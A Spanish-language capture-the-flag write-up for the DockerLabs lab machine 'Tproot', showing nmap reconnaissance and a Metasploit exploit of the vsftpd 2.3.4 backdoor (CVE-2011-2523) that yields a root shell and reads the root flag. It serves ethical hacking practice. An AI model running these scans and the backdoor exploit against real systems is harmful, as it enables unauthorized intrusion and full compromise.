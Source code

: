 ```yaml
---
title: Tproot
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-02-14
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-tproot/tproot_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ftp
  - http
  - tcp
  - cve
  - metasploit
  - information_gathering
  - cve_exploitation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ ping -c 1 127.17.0.2 
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.057 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.057/0.057/0.057/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 127.17.0.2 -n -Pn -oG nmap1
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 21/open/tcp//ftp///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ sudo nmap -sCV -p21,80 -vvv 127.17.0.2 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Unix
```
```terminal
/home/kali/Documents/dockerlabs/tproot:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], Title[Apache2 Ubuntu Default Page: It works]
```

El sitio web muestra la plantilla predeterminada de Apache sin información relevante.

![](assets/img/dockerlabs-writeup-tproot/tproot1.png)

Al verificar la versión de FTP, identifico una variante vulnerable y ampliamente conocida.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ searchsploit vsftpd 2.3.4
```

![](assets/img/dockerlabs-writeup-tproot/tproot2.png)

> La vulnerabilidad [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) ya fue abordada en la máquina [Firsthacking](https://litio7.github.io/posts/dockerlabs-writeup-firsthacking/) utilizando el exploit: '/unix/remote/49757.py'.
{: .prompt-tip }

---
## CVE Exploitation

En esta ocasión, emplearé Metasploit para explotar la vulnerabilidad CVE-2011-2523.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ sudo msfconsole

msf6 > search vsftpd 2.3.4
```

![](assets/img/dockerlabs-writeup-tproot/tproot3.png)

* Selecciono el módulo de explotación correspondiente.
* Configuró la dirección del objetivo 
* Y ejecutó el exploit.

```terminal
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 127.17.0.2
RHOSTS => 127.17.0.2

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

id
uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
```
